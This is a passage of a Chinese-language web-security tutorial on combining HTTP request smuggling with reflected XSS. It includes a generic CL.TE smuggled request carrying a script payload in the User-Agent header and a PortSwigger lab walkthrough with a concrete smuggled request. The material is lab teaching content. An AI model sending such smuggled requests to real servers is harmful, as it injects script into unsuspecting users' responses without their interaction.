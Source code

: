 Step 5：随后完成解题  
[![](assets/1704418275-0c0bad8fe5f522318d4f65c863784607.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103160955-7a7d1e68-aa0f-1.png)

### XSS反射

如果应用程序容易受到HTTP请求走私的攻击并且还包含反射XSS，那么我们便可以使用请求走私攻击来攻击应用程序的其他用户，这种方法在两个方面优于反射XSS的正常利用

-   它不需要与受害用户进行交互，你不需要给他们一个网址，然后等他们来访问，您只需偷偷发送一个包含XSS负载的请求，由后端服务器处理的下一个用户的请求就会被命中
-   它可用于在普通反射XSS攻击中无法轻易控制的请求部分(例如：HTTP请求头)中利用XSS行为

假设一个应用程序在用户代理头中有一个反射的XSS漏洞，您可以在请求走私攻击中利用这一点，如下所示：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 63
Transfer-Encoding: chunked

0

GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
Foo: X
```

下一个用户的请求将被附加到被发送的请求中，他们将在响应中收到反射的XSS有效载荷，下面我们通过一个靶场示例来进行演示说明：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss)  
靶场介绍：本实验涉及前端和后端服务器，前端服务器不支持分块编码，该应用程序还容易受到通过User-Agent标头反射的XSS的攻击，为了解决这个实验，你需要向后端服务器发送一个请求，使下一个用户的请求收到一个响应，该响应包含一个执行alert(1)的XSS漏洞  
演示过程：  
Step 1：直接访问上面的靶场地址，点击"ACCESS THELAB"进入靶场，随意访问一个Blog并使用burpsuite抓包，插入User-Agent头并写入恶意载荷并构造走私请求的数据包

```plain
POST / HTTP/1.1
Host: 0a2300d804da7e7b8021809600830024.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```
